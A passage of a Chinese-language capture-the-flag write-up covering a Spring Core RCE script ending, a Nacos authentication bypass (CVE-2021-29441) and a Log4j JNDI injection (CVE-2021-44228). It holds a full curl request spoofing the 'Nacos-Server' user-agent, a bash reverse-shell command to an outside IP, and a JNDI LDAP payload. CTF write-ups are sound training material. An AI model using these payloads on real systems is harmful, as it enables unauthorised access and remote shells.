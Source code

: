 ```python
if __name__ == '__main__':
    print("SPRING CORE RCE. :)")
    main()
```

不知道怎么搞得，把服务打挂了一次。。。好像有内存泄露。。。

## web-19 为什么不能用默认配置呢

nacos权限绕过漏洞(CVE-2021-29441)

在AuthFilter过滤器中存在如下条件语句：

useragent请求头如果以Constants.NACOS_SERVER_HEADER开头，则直接放通，执行后续的业务处理，而Constants.NACOS_SERVER_HEADER定义的正是"Nacos-Server"。

```shell
curl --location --request GET 'https://nacos-ctfd.dun.mi.com/nacos/v1/auth/users?pageNo=1&pageSize=9' \
--header 'authority: nacos-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cache-control: max-age=0' \
--header 'TODO miduncookie' \
--header 'if-modified-since: Fri, 29 Apr 2022 02:20:32 GMT' \
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: same-origin' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Nacos-Server'
```

有了user-agent: Nacos-Server之后，可以调用接口获取当前用户、添加用户。添加用户后，登录系统可以从系统的配置中获取flag。

## web-20 记日志能有什么问题呢

猜测题目应该是把输入的用户名密码记录到日志中。

想到了去年沸沸扬扬的 Apache Log4j远程代码执行漏洞（CVE-2021-44228）

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

Exploit执行反弹shell命令

```java
String[] cmds = new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/10.167.90.69/3000 0>&1"};
```

找一台服务器按照github说明开启jndi服务，用户名密码有一处填写

```text
${jndi:ldap://xx.xx.xx.xx:1389/Exploit}
```
